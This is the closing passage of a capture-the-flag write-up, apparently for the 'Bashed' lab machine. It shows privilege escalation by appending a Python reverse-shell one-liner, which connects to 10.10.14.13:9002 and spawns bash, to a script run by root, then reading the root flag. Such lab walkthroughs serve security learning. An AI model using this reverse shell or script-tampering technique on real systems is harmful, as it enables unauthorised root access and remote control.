 This worked! However, running the script gives us a permission denied when opening the file:

```bash
www-data@bashed:/$ sudo -u scriptmanager python /scripts/test.py
Traceback (most recent call last):
  File "/scripts/test.py", line 1, in <module>
    f = open("test.txt", "w")
IOError: [Errno 13] Permission denied: 'test.txt'
```

### Editing test.py to get a Shell as Root

So the program does not run as root - but maybe a process running as root is setup to regularly run it?

Linpeas didn't show up a cron job, but I thought I'd take a shot at spawning a shell and hoping the script got executed. I edited it to reuse the shell command from before:

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' | sudo -u scriptmanager tee -a /scripts/test.py
```

I checked that it looked okay:

```bash
www-data@bashed:/$ sudo -u scriptmanager cat /scripts/test.py   
f = open("test.txt", "w")
f.write("testing 123!")
f.close
f = open("/root/root.txt","r");print(f.read())
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

Then I just waited...

After 30 seconds or so I got a shell!

![[Pasted image 20210505111640.png]]

We can grab the flag:

![[Pasted image 20210505112810.png]]

That's the box!

![[Pasted image 20210505111945.png]]

## Afterthoughts

This privesc was a little messy from me. I struggled getting an interactice shell, and missed some basic enumeration like `sudo -l` and checking for scheduled processes.
